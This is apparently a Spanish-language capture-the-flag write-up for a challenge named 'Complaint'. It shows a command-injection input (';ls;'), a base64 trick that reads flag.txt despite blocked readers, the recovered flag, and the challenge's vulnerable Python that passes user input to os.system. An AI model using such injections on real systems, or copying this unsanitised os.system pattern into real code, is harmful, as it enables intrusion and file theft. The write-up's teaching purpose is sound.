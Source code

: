 # Complaint
![Task]()

Bien tras hacer un par de pruebas parece que concatenar comandos funciona bien pero hay ciertas limitaciones:
```
;ls;
WHAT IS BOTHERING YOU???
;ls;

bin
boot
chall
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
YOUR COMPLAINT HAS BEEN RECORDED.
```
Probando los basicos para leer la flag: less,more,cat o grep no funciona ninguno. Veamos que tenemos:
```
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```
Tras ir listando vemos que tenemos base64
```
base64 flag.txt | base64 -d
X-MAS{h3ll0_k4r3n-8819d787dd38a397}
```
Bien ahora con la flag, leamos tambien el codigo del reto:
```
import os

cmplt = input("WHAT IS BOTHERING YOU???\n")

if "'" in cmplt:
	print("PLEASE SUBMIT YOUR COMPLAINT WITHOUT ' SO OUR SYSTEM CAN PROCESS IT.")
elif '"' in cmplt:
	print("PLEASE SUBMIT YOUR COMPLAINT WITHOUT \" SO OUR SYSTEM CAN PROCESS IT.")
else:
	os.system("echo " + cmplt + " > /dev/null")
	print("YOUR COMPLAINT HAS BEEN RECORDED.")
```
Bien vemos que nuesto bypas funciona por que se ejecuta lo siguiente:
```
echo ; ls ; 2>/dev/null
```
